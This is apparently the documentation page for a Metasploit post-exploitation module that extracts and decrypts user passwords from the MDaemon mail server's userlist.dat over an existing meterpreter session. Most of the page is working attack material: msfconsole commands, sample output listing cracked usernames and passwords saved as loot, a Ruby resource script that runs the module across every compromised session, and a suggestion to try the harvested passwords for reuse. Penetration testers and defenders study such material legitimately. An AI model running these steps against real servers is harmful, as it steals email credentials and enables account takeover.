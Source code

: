 ## Vulnerable Application

Download and install the email server: [www.altn.com](http://www.altn.com/Downloads/MDaemon-Mail-Server-Free-Trial/)

You require a valid licence, but there's a demo for 30 days.

### Verified

1. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 64 bits.
2. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 32 bits. Worked,  but couldn't find the path through Register.
3. VM --> Microsoft Windows 7 on VMWare.

## Verification Steps

1. Get a meterpreter on a windows machine that has MDaemon installed.
2. Load the module: `use post/windows/gather/credentials/mdaemon_cred_collector`
3. Set the correct session on the module.
  1. Optional: you can add the remote path of the installation, especially if the software is installed on a strange path and the module can't find it..
4. Run the module and enjoy the loot.

## Example Run
**Normal mode**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > exploit 
```

Output:

```
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMPT credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.smtp_ser_754168.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.pop3_ser_608271.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.imap_ser_769125.txt
[*] Post module execution completed
```

**Verbose true**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > set verbose true
msf > exploit 
```

Output:

```
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:\Program Files
[*] Searching MDaemon installation at C:\Program Files (x86)
[*] Searching MDaemon installation at C:\Program Files
[*] Checking for Userlist in MDaemons directory at: C:\MDaemon\App
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*] Downloading UserList.dat file to tmp file: SFJOXMHZEFWA
[*] Cracking xJiKYdun7OvjVLnM
[*] Password p0%AhBxvs4IZ
[*] Cracking ocnTldjRpaejTg==
[*] Password Manuel123.
[*] Collected the following credentials:
[*]     Usernames: 2
[*]     Passwords: 2
[*] Deleting tmp file: SFJOXMHZEFWA
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMPT credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.smtp_ser_114741.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.pop3_ser_369240.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.imap_ser_028427.txt
[*] Post module execution completed
```

## Options

  **RPATH**
  The remote path of the MDaemon installation.
  If the machine runs on 64bits and the meterpreter is 32 bits, it won't be able to find the installation path in the registry, but it will search some default paths. If it is installed on a non-default path you can give the RPATH and it will work.

## Scenarios
**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/mdaemon_cred_collector")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

**Meterpreter on email server**

If you have a meterpreter running on a server that has MDaemon installed, run the module and you will get all the users and passwords of the email server. Quite useful for trying password reuse and/or checking the strength of the passwords.

Note: MDaemon can store the passwords on a database, in that case the module won't work, but you can search for the database location, username and password and still get them :)


## References
http://www.securityfocus.com/bid/4686

https://github.com/AgoraSecurity/MdaemonCrack
